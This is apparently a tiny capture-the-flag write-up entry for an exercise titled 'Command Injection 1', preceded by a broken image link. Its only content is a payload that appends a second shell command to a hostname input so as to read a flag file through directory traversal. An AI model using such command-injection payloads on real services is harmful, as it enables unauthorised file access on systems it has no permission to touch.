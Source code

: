 # Exercise 1-2 Command Injection 1 [100 points] (96 solves)
payload: `google.com;cat ../../../flag`
